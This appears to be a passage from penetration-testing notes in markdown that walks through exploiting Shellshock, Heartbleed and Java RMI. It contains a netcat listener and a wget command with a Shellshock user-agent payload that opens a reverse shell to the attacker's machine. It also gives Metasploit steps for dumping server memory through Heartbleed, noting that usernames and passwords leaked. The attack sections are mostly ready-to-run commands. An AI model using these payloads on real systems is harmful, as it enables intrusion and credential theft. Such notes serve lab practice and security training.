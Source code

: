 -set up a handler

```
nc -lvnp 1234
```

- set up the wget command with a reverse shell
 
```
wget -U "() { foo;echo; /bin/nc <kali ip> 1234 -e /bin/sh" http://<target ip>//cgi-bin/login.cgi
```

> if everything is correct, we should gain a reverse shell from our handler


## Exploiting Heartbleed

- Heartbleed, 2014, was a critical bug affecting OpenSSL versions 1.0.1 through 1.0.1f and allowed For the reading of encrypted data stored in memory due to a faulty implementation of the TLS (Transport Layer Security) and DTLS (Datagram Transport Layer Security) protocols heartbeat extension.

### Verify a vulnerable OpenSSL implementation
```
nmap --script ssl-heartbleed <target ip>
```
### After confirmed, we can use metasploit
```
use auxiliary/scanner/ssl/openssl_heartbleed
set action DUMP
set other options
run
// metasploit will store the result in ~/.msf4/loot directory as .bin file
```

### check the results
```
strings <file.bin>
```

 // in this case, the username and password was leaked 

> [+] if you dont get any leaked data from your first run, try again.



## Exploiting Java RMI Registry
- Java Remote Method Invocation

- There exists a vulnerability in default configurations of RMI registry and RMI activation services and affects what is known as the **RMI Distributed Garbage Collector**, and essentially allows the loading of arbitrary Java classes from an attacker-defined URL.
- Usually found on port 1099 TCP 
- in nmap is identified by the **GNU Classpath grmiregistry**

```
nmap -sT <target ip> -p 1099 -sV
```
